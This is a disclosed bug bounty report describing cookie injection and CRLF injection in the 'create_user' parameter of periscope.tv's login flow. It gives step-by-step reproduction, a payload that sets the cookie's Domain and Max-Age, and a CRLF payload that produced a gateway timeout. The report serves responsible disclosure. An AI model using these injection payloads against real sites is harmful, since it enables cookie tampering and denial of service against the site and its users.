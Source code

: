 # cookie injection allow dos attack to periscope.tv

## Report Details
- **Report ID**: 583819
- **URL**: https://hackerone.com/reports/583819
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-05-18T05:35:10.484Z
- **Disclosed**: 2019-07-03T16:59:19.172Z

## Reporter
- **Username**: protostar0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Description:** i find in  periscope.tv  a parameter "create_user" allow to inject "loginissignup" cookie,
when tested with crlf payload get response "**HTTP/1.1 504 GATEWAY_TIMEOUT**"
** Link Vulnerable:** https://www.periscope.tv/i/twitter/login?create_user=*payload*&csrf=*your_csrf_token*
## Steps To Reproduce:
  1. go to https://www.periscope.tv/
  2. click to login 
  3. click create new account
  4. choose twitter [ google & facebook also vulnerable]

  5-get link like https://www.periscope.tv/i/twitter/login?create_user=true&csrf=*your_csrf_token*

  6-edit create_user parameter 

**example : edit domain & max-age of loginissignup cookie **
payload="exploit;Domain=hakou.com;Max-Age=1000000000000000000000"
link=https://www.periscope.tv/i/twitter/login?create_user=exploit;Domain=hakou.com;Max-Age=1000000000000000000000&csrf=*your_csrf_token*
poc F492114

**example2: dos attack **
payload="dosattack%0d%0ahakou"
link=https://www.periscope.tv/i/twitter/login?create_user=dosattack%0d%0ahakou&csrf=*your_csrf_token*
get this response 
>HTTP/1.1 504 GATEWAY_TIMEOUT
Content-Length: 0
Connection: Close

poc 
F492115

## Impact

inject cookie & dos attack

## Attachments
- coo1.jpg
- coo2.jpg

